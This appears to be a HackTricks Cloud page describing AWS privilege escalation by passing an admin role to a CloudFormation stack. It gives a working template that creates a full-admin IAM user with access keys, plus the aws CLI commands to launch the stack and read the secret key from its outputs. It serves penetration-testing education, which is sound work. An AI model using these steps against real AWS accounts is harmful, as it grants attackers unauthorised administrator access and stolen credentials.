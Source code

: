 # iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:

```json
{
     "Resources": {
         "AdminUser": {
             "Type": "AWS::IAM::User"
         },
         "AdminPolicy": {
             "Type": "AWS::IAM::ManagedPolicy",
                 "Properties": {
                 "Description" : "This policy allows all actions on all resources.",
                 "PolicyDocument": {
                     "Version": "2012-10-17",
                     "Statement": [
                     {
                         "Effect": "Allow",
                         "Action": [
                         "*"
                         ],
                         "Resource": "*"
                     }]
                 },
                 "Users": [{
                     "Ref": "AdminUser"
                 }]
             }
         },
         "MyUserKeys": {
             "Type": "AWS::IAM::AccessKey",
             "Properties": {
                 "UserName": {
                     "Ref": "AdminUser"
                 }
             }
         }
       },
     "Outputs": {
         "AccessKey": {
             "Value": {
                 "Ref": "MyUserKeys"
             },
             "Description": "Access Key ID of Admin User"
         },
         "SecretKey": {
             "Value": {
                 "Fn::GetAtt": [
                 "MyUserKeys",
                 "SecretAccessKey"
                 ]
             },
             "Description": "Secret Key of Admin User"
         }
     }
}
```

Then **generate the cloudformation stack**:

```bash
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Wait for a couple of minutes** for the stack to be generated and then **get the output** of the stack where the **credentials are stored**:

```bash
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### References

* [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
